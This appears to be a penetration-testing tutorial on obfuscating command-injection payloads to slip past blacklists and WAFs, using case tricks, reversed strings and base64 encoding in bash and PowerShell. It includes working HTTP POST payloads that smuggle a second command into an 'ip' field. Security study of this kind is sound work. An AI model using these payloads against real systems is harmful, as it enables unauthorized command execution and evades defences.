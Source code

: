 In some instances, we may be dealing with advanced filtering solutions, like Web Application Firewalls (WAFs), and basic evasion techniques may not necessarily work. We can utilize more advanced techniques for such occasions, which make detecting the injected commands much less likely.
## Case Manipulation
One command obfuscation technique we can use is case manipulation, in which the character cases of a command is inverted (e.g `WHOAMI`) or alternated (e.g `WhOaMi`). This usually works because command blacklist functions may not check for different case variations of a single word, this is because Linux-based systems are case sensitive. So this technique will work for Windows' Powershell and CMD as they are case-insensitive.

Not all is lost for Linux-based systems and bash shell, we just have to be creative:
```nix
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
The command above will convert the command into an all-lowercase word and execute it.

Additionally, for bash shell, the following technique will work as well:
```nix
$(a="WhOaMi";printf %s "${a,,}")
```
## Reversed Commands
Another technique is reversing commands, and having a command template that switches them back and executes the command. For example, instead of executing `whoami`, we will instead use `imaohw` to avoid triggering the blacklisted command.

But first, we have to get the reversed string of our command in our terminal:
```nix
echo 'whoami' | rev
```
Then we can execute the original command by reversing it back in a sub-shell:
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0a$(rev<<<'imaohw')
```

The same can also be applied to Windows. First we reverse the string:
```powershell
"whoami"[-1...20] -join ''
```
Then we execute a reverse string using Powershell sub-shell (`iex "$()"`):
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0aiex "$('imaohw'[-1..-20] -join '')"
```
> Note: We removed the encoding on the command so that we can read it properly. But during engagements, make sure to encode the necessary characters to bypass other filters.
## Encoded Commands
Another technique is encoding commands, this may be helpful for commands containing filtered characters or characters that may be URL-decoded by the server. However, this may allow for the command to get messed up by the time it reaches the shell and eventually fails to execute (avoid this by not using encoded characters).

In this case, we can utilize various tools such as `base64` for base64 encoding and `xxd` for hex encoding. For example:
```nix
echo "whoami" | base64
```
Which will return `d2hvYW1pCg==`. We can now create a command to decode the encoded string in a sub-shell and then pass it to bash to be executed:
```nix
bash<<<$(base64 -d<<<d2hvYW1pCg==)
```
Which we can then use as a payload:
```http
POST / HTTP/1.1
Host: target-website.com
...

ip=127.0.0.1%0d%0abash<<<$(base64%09-d<<<d2hvYW1pCg==)
```
>   Tip: Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character. 

Additionally, we can first convert the string from `utf-8` to `utf-16` before it is encoded into base64 by using the following command:
```nix
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```

This encoding technique can also be used in Windows environment by using the following command:
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```

We can then decode the base64-encoded string and execute it with a Powershell sub-shell (`iex "$()"`):
```powershell
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

Finally, it is a good idea to be creative with Bash and Powershell to create your own unique obfuscation methods. This way, it is much less likely for the payload to be denied by a filter or a WAF.